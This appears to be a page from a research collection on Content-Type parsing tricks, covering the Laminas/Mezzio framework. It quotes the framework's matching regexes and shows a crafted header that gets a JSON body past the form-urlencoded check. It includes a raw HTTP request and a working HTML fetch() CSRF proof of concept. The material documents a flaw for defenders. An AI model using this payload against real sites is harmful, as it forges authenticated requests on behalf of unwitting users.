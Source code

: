 ### Laminas, Mezzio, Zend Framework

**Endpoint**
```php
$app->pipe(BodyParamsMiddleware::class);
...
public function indexAction() {
  $request = $this->getRequest();
```

**Source code**

By default, BodyParamsMiddleware composes the following strategies:

 * Mezzio\Helper\BodyParams\FormUrlEncodedStrategy
 * Mezzio\Helper\BodyParams\JsonStrategy

[/mezzio/mezzio-helpers/src/BodyParams/FormUrlEncodedStrategy.php](https://github.com/mezzio/mezzio-helpers/blob/37660f0d7e7c7db7e20e9d5ebed622379fb1e91a/src/BodyParams/FormUrlEncodedStrategy.php#L18-L22)
```php
class FormUrlEncodedStrategy implements StrategyInterface
{
  public function match(string $contentType) : bool
  {
    return 1 === preg_match('#^application/x-www-form-urlencoded($|[ ;])#', $contentType);
```

[/mezzio/mezzio-helpers/src/BodyParams/JsonStrategy.php](https://github.com/mezzio/mezzio-helpers/blob/37660f0d7e7c7db7e20e9d5ebed622379fb1e91a/src/BodyParams/JsonStrategy.php#L27-L31)
```php
class JsonStrategy implements StrategyInterface
{
  public function match(string $contentType) : bool
  {
    return 1 === preg_match('#^application/(|[\S]+\+)json($|[ ;])#', $contentType);
```

**JSON Content-Type**
```
application/XXX;+json
```

**HTTP Request**  
A different case is needed in order to bypass the FormUrlEncodedStrategy.
```http
POST /json HTTP/1.1
Host: localhost
Content-Type: application/x-WWW-Form-urlencoded;+json
Content-Length: 13

{"test":true}
```

**CSRF PoC**
```html
<script>
  fetch('http://localhost/json',{
    method:'POST',
    headers:{'Content-Type':'application/x-WWW-Form-urlencoded;+json'},
    body:'{"test":true}',
    credentials: 'include'
  })
</script>
```

**Multipart Content-Type**  
Same as [PHP](ct-tricks/PHP.md)